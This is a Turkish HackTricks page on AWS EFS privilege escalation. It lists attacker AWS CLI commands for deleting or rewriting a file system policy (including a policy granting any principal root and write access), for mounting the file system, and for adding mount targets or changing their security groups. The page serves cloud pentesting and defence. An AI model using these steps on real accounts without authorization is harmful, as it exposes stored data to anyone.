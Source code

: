 # AWS - EFS Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **Twitter'da** **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## EFS

Daha fazla **EFS hakkında bilgi** için:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

EFS'yi bağlamak için, EFS'nin açık olduğu bir alt ağda olmanız ve ona erişiminizin olması gerektiğini unutmayın (güvenlik grupları). Eğer bu gerçekleşiyorsa, varsayılan olarak, her zaman onu bağlayabileceksiniz, ancak IAM politikalarıyla korunuyorsa, ona erişmek için burada belirtilen ek izinlere sahip olmanız gerekir.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Bu izinlerden herhangi biriyle bir saldırgan **dosya sistemi politikasını** **değiştirerek** size **erişim verebilir** veya sadece **silerek** **varsayılan erişimi** sağlayabilir.

Politikayı silmek için:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Değiştirmek için:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Bu izinle bir saldırgan **EFS'yi bağlayabilir**. Eğer yazma izni, EFS'yi bağlayabilen herkes için varsayılan olarak verilmemişse, yalnızca **okuma erişimine** sahip olacaktır.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Ekstra izinler `elasticfilesystem:ClientRootAccess` ve `elasticfilesystem:ClientWrite`, dosya sistemi monte edildikten sonra **yazmak** ve bu dosya sistemine **root** olarak **erişmek** için kullanılabilir.

**Olası Etki:** Dosya sisteminde hassas bilgileri bulma yoluyla dolaylı yetki yükseltme.

### `elasticfilesystem:CreateMountTarget`

Eğer bir saldırgan **alt ağda** ise ve EFS'nin **hiçbir montaj hedefi** yoksa, bu yetki ile **kendi alt ağında bir tane oluşturabilir.**
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Olası Etki:** Dosya sisteminde hassas bilgilerin bulunmasıyla dolaylı yetki yükselmesi.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Bir saldırganın EFS'nin kendi alt ağında bir montaj hedefi bulduğu ancak **hiçbir güvenlik grubunun trafiğe izin vermediği** bir senaryoda, **seçilen güvenlik gruplarını değiştirerek bunu değiştirebilir:**
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potansiyel Etki:** Dosya sisteminde hassas bilgilerin bulunmasıyla dolaylı privesc.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
